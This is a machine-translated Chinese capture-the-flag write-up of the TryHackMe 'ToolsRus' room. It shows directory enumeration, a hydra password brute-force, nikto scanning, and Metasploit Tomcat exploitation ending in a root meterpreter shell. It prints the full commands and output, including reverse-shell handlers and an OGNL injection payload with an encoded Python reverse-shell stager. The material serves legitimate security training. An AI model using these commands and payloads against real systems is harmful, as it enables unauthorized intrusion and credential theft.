




# TryHackMe 文章:工具为我们

> 原文：<https://infosecwriteups.com/tryhackme-writeup-tools-r-us-daf0934f32f2?source=collection_archive---------2----------------------->

tools RUS([“tryhackme”，2019](https://tryhackme.com/room/toolsrus) )是一个有趣的小 TryHackMe 房间，它的用户“使用 dirbuster、hydra、nmap、nikto 和 metasploit 等工具进行练习。”在这个房间里，我确实学到了一些有趣的东西，但主要的教训是永远不要低估可以从开源情报和端口扫描中获得的信息。


基础图片:[某科学轨道炮(2009)](https://www.imdb.com/title/tt4525470/)

# 程序

在我继续之前，我必须确定这个房间的目标。创建这个房间是为了让用户可以针对目标系统练习不同的黑客工具。它要求提供关于目标系统的不同信息，以及`root`用户的标志。因此，我将“跟随”这个房间中给出的提示，直到我找到根标志。

我将通过修改`/etc/hosts`文件来包含`toolsrus.thm`伪域来做一些“内务处理”,该伪域将指向目标机器不断变化的动态 IP 地址。点击第一个任务右上角的绿色“启动机器”后，我就可以开始了！

## 探索

我先从使用 DirBuster 工具([“Kali Linux Tools”，n.d.](https://www.kali.org/tools/dirbuster/) )用字典攻击方法枚举子目录开始。图 1 显示了 DirBuster 的用户界面及其许多设置。



**图 1**

我将从设置目标 url(图 1a)开始，然后将线程数设置为 100(图 1b)以加快进程，并选择一个好的潜在子目录字典。最后，我点击了“开始”,很明显，这就开始了这个过程。

大约一个小时后，列表返回如图 2 所示的目录结构:



**图 2**

目录结构揭示了一些有趣的子目录:一个带有 200 响应代码的`/guidelines`文件夹，一个带有 401 响应代码的`/protected`文件夹和一个带有 403 响应代码的`/server-status`文件夹——它们分别代表“正常”、“未授权”和“禁止”([互联网号码分配机构，n.d.](https://www.iana.org/assignments/http-status-codes/http-status-codes.xhtml) )。访问`/guidelines`子目录时，我得到以下消息:

> *“嘿* ***bob*** *，你更新那个 TomCat 服务器了吗？”*

我可以从这条消息中推断出两件事:系统上可能有一个名为“bob”的用户，目标系统上可能有一个 TomCat 服务器( [Apache Software Foundation，n.d.](https://tomcat.apache.org/) )正在运行。为了验证后者，我通过运行以下命令启动了对目标系统的 nmap (n.d .)扫描:

```
└─$ sudo nmap -sT -A -v -Pn -p- -O -sC -oX tcp_scan.xml toolsrus.thm
```

扫描完成后，我使用`xsltproc`命令将 XML 输出转换成可读性更好的 HTML 文档。它的渲染如图 3 所示:



**图 3**

如果图上的文字难以阅读，我很抱歉，但它确实揭示了目标系统上有趣的服务:

*   端口 22 上的 OpenSSH 服务。
*   端口 80 上的 Apache web 服务(2.4.18 版)。
*   端口 1234 上的 Apache Tomcat 服务(7.0.88 版)。
*   端口 8009 上的 Apache Jserv 服务(1.1 版)。

目标系统似乎运行的是 Ubuntu(T21)，或者至少是其他的 Linux 变种。这证实了子目录`/guidelines`中注释的后半部分，这表明假设有一个名为“bob”的用户用于向其中一个服务进行身份验证更可信。

房间指出“鲍勃”是`/protected`子目录的用户名。为了计算出“bob”的密码，我使用了 hydra([“van Hauser”，n.d.](https://github.com/vanhauser-thc/thc-hydra) )密码破解程序来列举用户名`bob`的不同类型的密码:

```
**└─$ hydra -l bob -P ~/toolsrus/rockyou.txt -s 80 -f toolsrus.thm http-get /protected -V**
```

几秒钟后会产生以下输出:

```
[... snip ...][ATTEMPT] target toolsrus.thm - login "bob" - pass "elizabeth" - 61 of 14344399 [child 12] (0/0)
[ATTEMPT] target toolsrus.thm - login "bob" - pass "hottie" - 62 of 14344399 [child 13] (0/0)
[80][http-get] host: toolsrus.thm   login: bob   password: bubbles
[STATUS] attack finished for toolsrus.thm (valid pair found)[... snip ...]
```

使用用户名和密码组合`bob` : `bubbles`，我现在可以登录到“受保护”的页面。图 4 描述了“受保护”的页面:



这似乎没有提供多少有用的信息。但是尽管如此，我还是发现了一个用户名和密码组合`bob` : `bubbles`，可以用来填充凭证( [Nguyen 等人，2022](https://doi.org/10.1109/csci54926.2021.00187) )。

为了获得可能更有用的信息，我使用了 [nikto (n.d.)](https://cirt.net/Nikto2) 工具来进一步探测运行在 1234 端口上的 Apache Tomcat 服务器；我用以下命令启动了扫描:

```
**└─$ nikto -nossl -port 1234 -host toolsrus.thm -id bob:bubbles -output index.htm -Format htm**
```

在又一个小时左右的探查之后， *nikto* 揭示了一些半有趣的东西，如其终端输出所示:

```
[... snip ...]

+ OSVDB-3092: /manager/html/localstart.asp: This may be interesting...
+ OSVDB-3233: /manager/html/manager/manager-howto.html: Tomcat documentation found.
+ OSVDB-3233: /manager/html/jk-manager/manager-howto.html: Tomcat documentation found.
+ OSVDB-3233: /manager/html/jk-status/manager-howto.html: Tomcat documentation found.
+ OSVDB-3233: /manager/html/admin/manager-howto.html: Tomcat documentation found.
+ OSVDB-3233: /manager/html/host-manager/manager-howto.html: Tomcat documentation found.

[... snip ...]
```

Nikto 找到了大约五(5)个关于 Apache Tomcat 实例文档的网页。

## 初始访问

[Metasploit(未注明)](https://metasploit.com/)附带了一个利用 Apache Tomcat v. 7.0.88 中的漏洞的模块( [Mo 等人，](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/http/struts2_namespace_ognl))。我试图配置并启动漏洞，但遇到了一些错误:

```
**└─$ sudo msfconsole** 

[... snip ...]**msf6 > search tomcat 7.0.88**[... snip ...] 0  exploit/multi/http/struts2_namespace_ognl  2018-08-22 [... snip ...]**msf6 > use exploit/multi/http/struts2_namespace_ognl**
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
**msf6 exploit(multi/http/struts2_namespace_ognl) > set RHOSTS toolsrus.thm**
RHOSTS => toolsrus.thm
**msf6 exploit(multi/http/struts2_namespace_ognl) > set RPORT 1234**
LPORT => 1234
**msf6 exploit(multi/http/struts2_namespace_ognl) > set LHOST attacker.thm**
LPORT => attacker.thm
**msf6 exploit(multi/http/struts2_namespace_ognl) > exploit**[*] Started reverse TCP handler on attacker.thm:4444 
[-] Bad OGNL request: ${(#_memberAccess['allowStaticMethodAccess']=true).(#p=new java.lang.ProcessBuilder({'sh','-c','echo exec\(__import__\(\'base64\'\).b64decode\(__import__\(\'codecs\'\).getencoder\(\'utf-8\'\)\(\'aW1wb3J0IHNvY2tldCx6bGliLGJhc2U2NCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzEwLjkuNi4xMzUnLDQ0NDQpKQoJCWJyZWFrCglleGNlcHQ6CgkJdGltZS5zbGVlcCg1KQpsPXN0cnVjdC51bnBhY2soJz5JJyxzLnJlY3YoNCkpWzBdCmQ9cy5yZWN2KGwpCndoaWxlIGxlbihkKTxsOgoJZCs9cy5yZWN2KGwtbGVuKGQpKQpleGVjKHpsaWIuZGVjb21wcmVzcyhiYXNlNjQuYjY0ZGVjb2RlKGQpKSx7J3MnOnN9KQo\=\'\)\[0\]\)\) | exec $(which python || which python3 || which python2) -'})).(#p.redirectErrorStream(true)).(#process=#p.start()).(#r=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#r)).(#r.flush())}
[-] Exploit aborted due to failure: bad-config: OGNL request cannot contain a '\'
[*] Exploit completed, but no session was created.
```

我在搜索引擎上查找了“Metasploit Bad request”，并找到了前面提到的 [Mo et al. (n.d.)](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/http/struts2_namespace_ognl) 关于该漏洞的文档。文档讨论了导致故障的代码片段:

```
# Snippet adapted from Mo et al. (n.d.)149:	    #   '\n' ends the GET request prematurely
150:	
151:	    bad_chars = %w[; \\ \r \n]    # and maybe '/'
152:	    bad_chars.each do |c|
153:	      if ognl.include? c
154:	        print_error("Bad OGNL request: #{ognl}")
155:	        fail_with(Failure::BadConfig, "OGNL request cannot contain a '#{c}'")
156:	      end
157:	    end
158:	
159:	    # The following list of characters *must* be encoded or ORNL will asplode
```

好吧。看起来角色`;`、`\\`、`\r`、`\n`和`/`必须使用某种编码才能让漏洞发挥作用。我尝试了一下模块的高级设置——比如将`EnableStageEncoding`和`EnableContextEncoding`都设置为`true`。我甚至编辑了`struts2_namespace_ognl.rb`模块，并删除了“坏字符”列表中的`\`字符，但即使是这种尝试也以同样的“广告 OGNL 请求”告终

我最终放弃了使用`struts2_namespace_ognl`模块，做了更多的研究，并尝试使用一个不同的利用模块，该模块使用了前面提到的凭证填充技术——这是由[“ranger cha”，(未标明)](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/http/tomcat_mgr_upload)设计的`tomcat_mgr_upload`。

我配置并运行了漏洞，然后…

```
**└─$ sudo msfconsole**[... snip ...]**msf6 > use exploit/multi/http/tomcat_mgr_upload**
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
**msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername bob**
HttpUsername => bob
**msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword bubbles**
HttpPassword => bubbles
**msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS toolsrus.thm**
RHOSTS => toolsrus.thm
**msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 1234**
RPORT => 1234
**msf6 exploit(multi/http/tomcat_mgr_upload) > set LHOST attacker.thm**
LHOST => attacker.thm
**msf6 exploit(multi/http/tomcat_mgr_upload) > exploit**[*] Started reverse TCP handler on attacker.thm:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying RAZHrqS5YFYauJLnwJaEDZOJv7Q3M9...
[*] Executing RAZHrqS5YFYauJLnwJaEDZOJv7Q3M9...
[*] Sending stage (58829 bytes) to toolsrus.thm
[*] Undeploying RAZHrqS5YFYauJLnwJaEDZOJv7Q3M9 ...
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (attacker.thm:4444 -> toolsrus.thm:42424 ) at [redacted] -0400**meterpreter >**
```

非常好。

# 后剥削

我进入一个 Linux 终端，用`id`命令获得当前用户:

```
**meterpreter > shell**Process 1 created.
Channel 1 created.
**$ id**
uid=0(root) gid=0(root) groups=0(root)
```

不需要权限提升，我可以直接转储根标志:

```
**$ cat /root/flag.txt**
[redacted]
```

阿洛拉。

# 摘要

尽管这是一个“容易”的房间，但仍然很容易犯愚蠢的错误，现实生活中的攻击性安全工程项目可能会将一个人置于那些明显“隐藏在众目睽睽之下”的情况下

## 外卖食品

*   `tomcat_mgr_upload` Metasploit 模块可用于接管 Apache Tomcat 实例——假设攻击者拥有系统的用户名和密码。
*   像 *DirBuster* 、 *nmap* 和 *nikto* 这样的探测工具可以揭示一些很酷的东西。
*   不要低估字典攻击的威力和系统上的那些小信息。

## 插头

向这些人捐款，因为他们需要经济帮助:

*   现金伊西。app:[https://cash.app/$izzykilla](https://cash.app/$izzykilla)
*   迪. w .现金交易。app:[https://cash.app/$pitfirego](https://cash.app/$pitfirego)
*   https://account.venmo.com/u/Spitfirego
*   郭台铭谈现金。app:[https://cash.app/$octgayvian](https://cash.app/$octgayvian)

**作者注**:此文最初自发表于*Substack*:[https://epsilon calculus . Substack . com/p/tryhackme-writeup-tools-r-us](https://epsiloncalculus.substack.com/p/tryhackme-writeup-tools-r-us)

# 参考

某科学轨道炮，2009 年 J.C .职员冬川摩托伊创造。

阿帕奇软件基金会(未注明)。*阿帕奇雄猫*。2022 年 8 月 8 日检索:[https://tomcat.apache.org/](https://tomcat.apache.org/)

互联网号码分配机构。*超文本传输协议(HTTP)状态码注册表*。2022 年 8 月 7 日检索自:[https://www . iana . org/assignments/http-status-codes/http-status-codes . XHTML](https://www.iana.org/assignments/http-status-codes/http-status-codes.xhtml)

“Kali Linux 工具”(未注明)。*恐怖克星*。2022 年 8 月 7 日检索自:[https://www.kali.org/tools/dirbuster/](https://www.kali.org/tools/dirbuster/)

Metasploit(未注明)。*渗透测试软件和笔测试安全*。2022 年 8 月 8 日检索自:[https://metasploit.com/](https://metasploit.com/)

莫，M. Y，“hook-s3c”，“asoto-r7”和“wvu”(未注明)。 *Apache Struts 2 名称空间重定向 OGNL 注入— Metasploit* 。信息安全问题。2022 年 8 月 8 日检索自:[https://www.infosecmatter.com/metasploit-module-library/?mm = exploit/multi/http/struts 2 _ namespace _ ognl](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/http/struts2_namespace_ognl)

Nguyen Ba，M. H .、Bennett，j .、加拉格尔和布尼亚，S. (2021)。凭证填充攻击案例研究:Canva 数据泄露。*2021 年计算科学与计算智能国际会议(CSCI)* 。IEEE。https://doi.org/10.1109/csci54926.2021.00187

尼克托(未标明)。2022 年 8 月 8 日检索自:【https://cirt.net/Nikto2 

nmap(未标明)。*网络映射器——免费安全扫描器*。2022 年 8 月 8 日检索自:[https://nmap.org/](https://nmap.org/)

“兰格尔查”(未注明)。Apache Tomcat 管理器验证上传代码执行— Metasploit。信息安全问题。2022 年 8 月 8 日检索自:[https://www.infosecmatter.com/metasploit-module-library/?mm = exploit/multi/http/Tomcat _ mgr _ upload](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/http/tomcat_mgr_upload)

《tryhackme》(2019)。 *ToolsRus:练习使用 dirbuster、hydra、nmap、nikto、metasploit* 等工具。TryHackMe。2022 年 8 月 7 日检索自:[https://tryhackme.com/room/toolsrus](https://tryhackme.com/room/toolsrus)

Ubuntu(未注明日期)。*企业开源和 Linux* 。2022 年 8 月 8 日检索自:[https://ubuntu.com/](https://ubuntu.com/)

“范·豪泽”(未注明)。*九头蛇*。GitHub 仓库。2022 年 8 月 8 日检索自:[https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！